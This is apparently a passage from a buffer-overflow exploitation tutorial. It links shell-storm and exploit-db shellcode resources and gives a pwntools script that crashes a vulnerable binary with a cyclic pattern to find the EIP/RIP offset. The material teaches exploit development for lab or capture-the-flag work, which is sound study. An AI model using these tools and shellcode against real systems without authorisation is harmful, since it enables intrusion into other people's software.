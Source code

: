 * The offset is the value we found above.
* location-to-modify: represents the function or address in the stack that we wish to modify.
* value: is the value that we want to insert into the function/memory address.
* sym.location-to-modify: will return the memory address of the function we want to modify

#### Resources

Shellcodes database

```
http://shell-storm.org/shellcode/
```

Ready /bin/sh Shellcode

```
https://www.exploit-db.com/exploits/13357
```

A python script to get the offset of a binary. The below script should be run at the same directory of the binary that is vulnerable to BOF.

```python
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './binaryname' # CHANGE-THIS
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# Below is the function that handles the input the binary expects and then sends the pattern. Modify this section according to the user input process of the binary.

def getOffset(pattern):
    sh = process(exe)
    sh.sendlineafter(':', 'y')
    sh.sendlineafter(':', 'aa')
    sh.sendlineafter(':', 'aa')
    sh.sendlineafter(':', '-1')
    sh.sendlineafter(':', pattern)
    sh.wait()
    offset = cyclic_find(sh.corefile.read(sh.corefile.sp,4))
    info('EIP/RIP offset : {i}'.format(i=offset))
    return offset

pattern = cyclic(1024)
offset = getOffset(pattern) 
```
